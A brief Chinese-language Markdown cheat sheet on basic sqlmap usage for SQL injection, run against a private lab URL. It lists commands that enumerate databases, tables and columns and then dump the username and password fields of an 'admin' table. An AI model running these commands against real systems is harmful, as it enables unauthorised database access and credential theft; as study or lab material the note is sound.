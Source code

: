 ```yaml
---
tags:
  - 工具
  - sql注入
---
```


# 基本用法

### 获取数据库基本信息

sqlmap -u "http://192.168.22.180/boolean.php?id=1"  --dbms mysql --level 3 --dbs

查询有哪些数据库

sqlmap -u "http://192.168.22.180/boolean.php?id=1"  --dbms mysql --level 3 -D test --tables

查询test数据库中有哪些表

sqlmap -u "http://192.168.22.180/boolean.php?id=1"  --dbms mysql --level 3 -D test -T admin --columns

查询test数据库中admin表有哪些字段

sqlmap -u "http://192.168.22.180/boolean.php?id=1"  --dbms mysql --level 3 -D test -T admin -C "username,password" --dump

dump出字段username与password中的数据

